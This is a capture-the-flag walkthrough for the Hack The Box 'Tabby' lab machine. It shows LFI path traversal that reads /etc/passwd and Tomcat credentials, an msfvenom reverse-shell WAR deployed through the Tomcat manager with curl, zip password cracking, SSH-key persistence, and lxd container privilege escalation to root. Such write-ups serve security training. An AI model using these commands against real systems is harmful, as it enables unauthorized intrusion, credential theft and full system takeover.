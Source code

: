 # Box 



![tabby](img/Screenshot_2020-12-24_17-30-24.png)

https://www.hackthebox.eu/home/machines/profile/259

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 



## Enumeration

Let's start with nmap : 

```bash
nmap -sC -oN scan -sV 10.10.10.194
```

![image-20201226110226334](img/image-20201226110226334.png)

I found a web page where you can do a LFI  http://10.10.10.194/news.php?file=../../../../../etc/passwd

![image-20201226110455401](img/image-20201226110455401.png)

After reading documentation, we can now search for tomcat users : http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

If you look in the source code page you can see : 

```xml
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

I find a way to upload a payload : 


 	http://10.10.10.194:8080/manager/text/deploy?path

![image-20201226111814716](img/image-20201226111814716.png)

We can also see ths list of payload available  : http://10.10.10.194:8080/manager/text/list
![image-20201226111858954](img/image-20201226111858954.png)

##  Exploitation

Let's make our own payload to get a reverse_shell  :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war -o payload.war
```



We upload the file thanks to curl :

```bash
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file payload.war  "http://10.10.10.194:8080/manager/text/deploy?path=/payload&update=true"
```

Let's setup nc to receive our shell : 

![image-20201226112207834](img/image-20201226112207834.png)

Activate it :

```
http://10.10.10.194:8080/payload
```

We now get our reverse shell :

![image-20201226112345734](img/image-20201226112345734.png)

## Post-Exploitation

### User

Let's upgrade it, I found python on the machine so we can use :

```bash
/usr/bin/python3.8 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20201226112757221](img/image-20201226112757221.png)


I found the file /var/www/html/files/16162020_backup.zip whch is password protected I decided to download it on my local machine 

![image-20201226113149055](img/image-20201226113149055.png)

Let's setup a python server to download the file : 

```bash
python3.8 -m http.server 4445
```

![image-20201226113512097](img/image-20201226113512097.png)

on our machine : 

```bash
wget http://10.10.10.194:4445/16162020_backup.zip
```

![image-20201226113550788](img/image-20201226113550788.png)

Let's crack it with the rockyou.txt wordlist :

```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip
```

we get password : 

![image-20201226113833467](img/image-20201226113833467.png)



We can know get to the user ash in ssh.

![image-20201226114208147](img/image-20201226114208147.png)

We now have our user.txt hash. 

I will now add my ssh pub key to the authorized_keys file of ash.

![image-20201226114432079](img/image-20201226114432079.png)

### Root

Let's enumerate the machine thanks to LinPEAS.

After enumeration, we can see we are part of the lxd group :

![image-20201226114721124](img/image-20201226114721124.png)

We can create a container where we have root access, here is the link to the exploit https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

We first need to upload an alpine builder :

```bash
wget http://10.10.14.28:4444/alpine-v3.12-x86_64-20201031_1515.tar.gz
```

![image-20201226115611008](img/image-20201226115611008.png)

Let's import our image : 

```bash
lxc image import ./alpine-v3.12-x86_64-20201031_1515.tar.gz 
```

![image-20201226115921228](img/image-20201226115921228.png)

I created an alias to give it a name : 

![image-20201226120129775](img/image-20201226120129775.png)

Now configuration : 

```bash
lxc init htb privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```

Execution : 

```bash
lxc start privesc
lxc exec privesc /bin/sh
```


Rooted.

![image-20201226120313901](img/image-20201226120313901.png)






